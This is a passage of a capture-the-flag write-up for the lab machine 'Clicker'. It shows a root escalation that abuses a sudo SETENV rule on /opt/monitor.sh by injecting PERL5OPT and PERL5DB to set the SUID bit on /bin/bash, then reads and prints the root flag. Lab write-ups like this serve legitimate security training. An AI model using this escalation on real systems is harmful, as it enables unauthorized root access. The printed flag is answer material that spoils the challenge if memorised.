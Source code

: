 Running `sudo -l` gives us some entries:

```
$ sudo -l
Matching Defaults entries for jack on clicker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jack may run the following commands on clicker:
    (ALL : ALL) ALL
    (root) SETENV: NOPASSWD: /opt/monitor.sh
```

Looking at the contents of `/opt/monitor.sh` we see this:

```sh
#!/bin/bash
if [ "$EUID" -ne 0 ]
  then echo "Error, please run as root"
  exit
fi

set PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
unset PERL5LIB;
unset PERLLIB;

data=$(/usr/bin/curl -s http://clicker.htb/diagnostic.php?token=secret_diagnostic_token);
/usr/bin/xml_pp <<< $data;
if [[ $NOSAVE == "true" ]]; then
    exit;
else
    timestamp=$(/usr/bin/date +%s)
    /usr/bin/echo $data > /root/diagnostic_files/diagnostic_${timestamp}.xml
fi
```

Looking at `PERL5LIB` being unset, and looking inside `/usr/bin/xml_pp`, I assume this is vulnerable to [CVE-2016-1531](https://github.com/0xsyr0/OSCP#cve-2016-1531-exim-lpe)

As we can't write any files to the directory, we can do it by setting a SUID to `/bin/bash`

```
$ sudo PERL5OPT=-d PERL5DB='exec "chmod u+s /bin/bash"' /opt/monitor.sh
Statement unlikely to be reached at /usr/bin/xml_pp line 9.
	(Maybe you meant system() when you said exec()?)
$ /bin/bash -p
$ cat /root/root.txt
59e97b75b4b6daac788914d2ece50c4c
```

And there's the root flag! 

Flag: `59e97b75b4b6daac788914d2ece50c4c`
